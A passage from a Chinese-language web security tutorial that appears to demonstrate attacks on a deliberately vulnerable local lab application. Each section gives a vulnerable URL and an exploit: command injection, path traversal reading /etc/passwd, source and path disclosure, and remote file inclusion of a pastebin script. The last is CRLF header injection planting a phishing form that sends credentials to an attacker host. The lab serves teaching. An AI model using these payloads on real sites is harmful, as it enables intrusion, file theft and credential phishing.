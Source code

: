 漏洞地址:    
http://127.0.0.1:65412/?domain=www.google.com

EXPLOIT:

http://127.0.0.1:65412/?domain=www.google.com; ifconfig

4.3.8 Full Path Disclosure

完整路径泄露: 全路径泄露漏洞使攻击者能够看到Web应用程序在服务器端的完整路径(例如：/var/www/html/)。攻击者会结合其他漏洞对Web系统进一步的攻击(如: 写 Webshell)。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=foobar

4.3.9 Source Code Disclosure

源码泄露: 该漏洞会造成允许未授权用户获得服务器端应用程序的源代码。此漏洞会造成企业内部的敏感信息泄露或容易遭受恶意攻击者攻击。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=dsvw.py

4.3.10 Path Traversal

路径穿越: 路径遍历攻击（也称为目录遍历）旨在访问存储在Web根文件夹外部的文件和目录。通过使用 “../” 或 “..\” 等相对文件路径方式来操纵引用文件的变量，该漏洞会允许访问存储在文件系统上的任意文件和目录。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=../../../../../../etc/passwd

4.3.11 File Inclusion (remote)

远程文件包含: 通常利用目标应用程序中实现的 “动态文件包含” 机制，允许攻击者包括一个远程文件。 由于对用户输入的数据没有进行适当的验证，导致出现漏洞。

漏洞地址:    
http://127.0.0.1:65412/?include=

EXPLOIT:

http://127.0.0.1:65412/?include=http://pastebin.com/raw.php?i=N5ccE6iH&cmd=ifconfig

4.3.12 HTTP Header Injection (phishing)

HTTP响应头拆分(钓鱼): 用户提交的部分参数, 没有经过验证或过滤直接在响应头中输出, 由于HTTP的Header中使用了CRLF(url中的%0d%0a)来分割各个字段中的数据。恶意用户可以构造特殊的数据应该欺骗钓鱼。

漏洞地址:    
http://127.0.0.1:65412/?charset=utf8

EXPLOIT:

http://127.0.0.1:65412/?charset=utf8%0D%0AX-XSS-Protection:0%0D%0AContent-Length:388%0D%0A%0D%0A<!DOCTYPE html><html><head><title>Login</title></head><body style='font: 12px monospace'><form action="http://attacker.co.nf/i/log.php" onSubmit="alert('visit \'http://attacker.co.nf/i/log.txt\' to see your phished credentials')">Username:<br><input type="text" name="username"><br>Password:<br><input type="password" name="password"><input type="submit" value="Login"></form></body></html>
